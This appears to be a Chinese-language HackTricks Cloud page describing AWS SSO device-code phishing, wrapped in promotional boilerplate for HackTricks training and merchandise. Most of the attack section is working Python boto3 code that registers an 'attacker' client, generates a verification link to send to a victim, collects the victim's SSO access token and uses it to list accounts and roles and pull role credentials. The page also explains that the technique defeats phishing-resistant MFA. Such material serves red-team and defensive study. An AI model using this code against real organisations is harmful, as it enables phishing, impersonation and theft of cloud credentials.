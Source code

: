 # AWS - 身份中心和SSO未经身份验证枚举

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT收藏品](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## AWS设备代码钓鱼

最初在[**这篇博客文章**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)中提出，可以通过AWS SSO向用户发送一个**链接**，如果**用户接受**，攻击者将能够获得一个**令牌来冒充用户**，并访问用户能够访问的**身份中心**中的所有角色。

要执行此攻击，需要满足以下条件：

* 受害者需要使用**身份中心**
* 攻击者必须知道受害者使用的**子域** `<victimsub>.awsapps.com/start`

仅凭上述信息，**攻击者就能够向用户发送一个链接**，如果**接受**，将授予**攻击者对AWS用户帐户的访问权限**。

### 攻击

1. **查找子域**

攻击者的第一步是找出受害公司在其身份中心中使用的子域。这可以通过**OSINT**或**猜测+BF**来完成，因为大多数公司将在此处使用其名称或其变体。

有了这些信息，就可以获取配置了身份中心的区域：
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **生成受害者链接并发送**

运行以下代码生成一个AWS SSO登录链接，以便受害者进行身份验证。\
在演示中，在Python控制台中运行此代码，并不要退出，因为稍后您将需要一些对象来获取令牌：
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **等待受害者接受**

如果受害者**已经登录到 AWS**，他只需要接受授予权限；如果没有登录，他将需要**登录然后接受授予权限**。\
这是当前提示的外观：

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **获取 SSO 访问令牌**

如果受害者接受了提示，请运行以下代码来**生成模拟用户的 SSO 令牌**：
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO访问令牌**有效期为8小时**。

5. **冒充用户**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### 钓鱼不可钓鱼的MFA

有趣的是，即使使用了"不可钓鱼的MFA"（webAuth），前面的攻击也能够奏效。这是因为前面的工作流程从未离开所用的OAuth域。不像其他钓鱼攻击需要替换登录域名，这种情况下设备代码工作流程已准备就绪，因此设备知道一个代码，用户甚至可以在不同的设备上登录。如果接受了提示，设备只需知道初始代码，就能够检索用户的凭据。

有关更多信息，请查看[此文章](https://mjg59.dreamwidth.org/62175.html)。

### 自动化工具

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 参考资料

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
